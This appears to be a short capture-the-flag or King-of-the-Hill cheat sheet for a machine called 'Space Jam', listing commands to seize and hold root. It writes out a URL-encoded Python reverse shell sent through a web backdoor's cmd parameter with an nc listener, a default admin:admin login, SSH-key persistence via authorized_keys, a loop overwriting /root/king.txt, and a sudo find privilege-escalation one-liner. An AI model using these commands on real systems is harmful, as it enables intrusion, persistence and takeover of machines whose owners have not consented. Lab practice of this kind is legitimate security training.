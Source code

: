 Space Jam

## Instant root
`"<REMOTE_IP>:3000/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<REMOTE IP>%22%2C5566%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"` and `nc -nlvp 5566`
`killall node` to remove backdoor
- `ps aux | grep python` then `kill PYTHON3 easythingy`
- Go to `http://IP/local/fantasticblog/blogadmin/admin/pageSettings.php`, login `admin:admin`, change password
- You are alone now!

# Alternatives:

- `nc IP 61432`
- `echo "SSHKEY" > .ssh/authorized_keys`
- on your machine: `ssh jordan@IP`
- `ps aux` + `kill PID` for that process

- `while true; do echo "$USERNAME" | cp /dev/stdin /root/king.txt; sleep 0.1; done &`

- `sudo find . -exec /bin/sh \; -quit`